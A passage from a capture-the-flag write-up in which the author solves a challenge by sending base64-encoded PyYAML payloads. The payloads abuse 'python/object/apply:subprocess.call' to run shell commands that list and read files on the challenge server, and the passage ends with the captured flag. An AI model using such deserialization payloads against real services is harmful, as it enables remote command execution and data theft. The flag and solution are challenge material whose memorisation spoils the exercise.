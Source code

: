 ```
2 - Exit.

### USE THE TOKEN AND EXECUTE 'ls /home/marshmallows' PAYLOAD ###

> send_secret_marshmallows
[?] Token: eb261970-9745-4180-9f3c-d6a3cdaeee8d
[+] Good token.
[?] Your secret marshmallows: ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3
MuY2FsbAphcmdzOiBbbHMgL2hvbWUvbWFyc2htYWxsb3dzXQprd2RzOiB7c2hlbGw6IHRydWV9
5ae64891a82f2290f157e8fa419c2d3d
marshmallows.py
marshmallows.sh
[+] Menu

1 - Play chubby bunny.
2 - Exit.

### USE THE TOKEN AND EXECUTE 'cat /home/marshmallows/5ae64891a82f2290f157e8fa419c2d3d' PAYLOAD ###
> send_secret_marshmallows
[?] Token: eb261970-9745-4180-9f3c-d6a3cdaeee8d
[+] Good token.
[?] Your secret marshmallows: ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3
MuY2FsbAphcmdzOiBbY2F0IC9ob21lL21hcnNobWFsbG93cy81YWU2NDg5MWE4MmYyMjkwZj
E1N2U4ZmE0MTljMmQzZF0Ka3dkczoge3NoZWxsOiB0cnVlfQ==

You did it!

Greets, MuffinX

HV16-m4rs-hm4l-l0wh-4x0r-sr0x

If you liked this challenge, tweet me: https://twitter.com/muffiniks
[+] Menu

1 - Play chubby bunny.
2 - Exit.

> 
```

And the flag is:

> HV16-m4rs-hm4l-l0wh-4x0r-sr0x

References:

- \[1\] Format String Exploitation-Tutorial, <https://www.exploit-db.com/docs/28476.pdf>
- \[2\] PyYaML exploit, <http://xsnippet.org/361037/>


Day 17: I want to play a Game
-----------------------------
Not done, I'm not a big fan of reverse engineering and I have no time to learn that now :)
